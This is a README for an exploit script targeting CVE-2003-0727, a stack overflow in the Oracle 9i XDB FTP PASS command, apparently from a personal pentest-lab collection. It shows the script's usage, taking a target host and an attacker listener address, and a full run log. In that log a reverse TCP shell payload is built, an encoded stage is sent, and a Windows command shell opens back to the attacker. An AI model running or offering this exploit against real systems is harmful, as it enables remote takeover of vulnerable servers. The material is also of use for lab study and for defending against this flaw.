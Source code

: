 # CVE-2003-0727

By passing an overly long string to the PASS command, a stack based buffer overflow occurs. David Litchfield, has illustrated multiple vulnerabilities in the Oracle 9i XML Database (XDB), during a seminar on "Variations in exploit methods between Linux and Windows" presented at the Blackhat conference.

## Usage

```sh
  CVE-2003-0727_oracle9i_xdb_ftp_pass_rce  master ⦿ ./oracle9i_xdb_ftp_pass_rce.py

      ▄▄▄   ▄▄▄·  ▄▄· ▄▄▌  ▄▄▄ .▪  ▐▄• ▄ ·▄▄▄▄  ▄▄▄▄· ·▄▄▄▄▄▄▄▄ ▄▄▄· ▄▄▄· ▄▄▄· .▄▄ · .▄▄ · ▄▄▄   ▄▄· ▄▄▄ .
▪     ▀▄ █·▐█ ▀█ ▐█ ▌▪██•  ▀▄.▀·██  █▌█▌▪██▪ ██ ▐█ ▀█▪▐▄▄·•██  ▐█ ▄█▐█ ▄█▐█ ▀█ ▐█ ▀. ▐█ ▀. ▀▄ █·▐█ ▌▪▀▄.▀·
 ▄█▀▄ ▐▀▀▄ ▄█▀▀█ ██ ▄▄██▪  ▐▀▀▪▄▐█· ·██· ▐█· ▐█▌▐█▀▀█▄██▪  ▐█.▪ ██▀· ██▀·▄█▀▀█ ▄▀▀▀█▄▄▀▀▀█▄▐▀▀▄ ██ ▄▄▐▀▀▪▄
▐█▌.▐▌▐█•█▌▐█ ▪▐▌▐███▌▐█▌▐▌▐█▄▄▌▐█▌▪▐█·█▌██. ██ ██▄▪▐███▌. ▐█▌·▐█▪·•▐█▪·•▐█ ▪▐▌▐█▄▪▐█▐█▄▪▐█▐█•█▌▐███▌▐█▄▄▌
 ▀█▄▀▪.▀  ▀ ▀  ▀ ·▀▀▀ .▀▀▀  ▀▀▀ ▀▀▀•▀▀ ▀▀▀▀▀▀▀• ·▀▀▀▀ ▀▀▀  ▀▀▀ .▀   .▀    ▀  ▀  ▀▀▀▀  ▀▀▀▀ .▀  ▀·▀▀▀  ▀▀▀


Usage: ./oracle9i_xdb_ftp_pass_rce.py <HOST> <LHOST> <LPORT>
EXAMPLE: ./oracle9i_xdb_ftp_pass_rce.py '10.10.10.70' 10.10.14.24 1337
```

## Run exploit

```sh
root@kali:~/mikkal/dev/HackingAllTheThings/exploit/windows/CVE-2003-0727_oracle9i_xdb_ftp_pass_rce# ./oracle9i_xdb_ftp_pass_rce.py 10.11.1.xxx 10.11.0.xxx 4444
[+] Start listener
[+] Build shellcode

lsPAYLOAD => windows/shell/reverse_tcp
LHOST => 10.11.0.xxx
LPORT => 4444

[*] Started reverse TCP handler on 10.11.0.xxx:4444
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.11.1.xxx
[*] Command shell session 1 opened (10.11.0.xxx:4444 -> 10.11.1.xxx:1109) at 2019-02-20 02:58:20 -0500

Microsoft Windows 2000 [Version 5.00.2195]
(C) Copyright 1985-2000 Microsoft Corp.

C:\oracle\ora92\DATABASE>



```
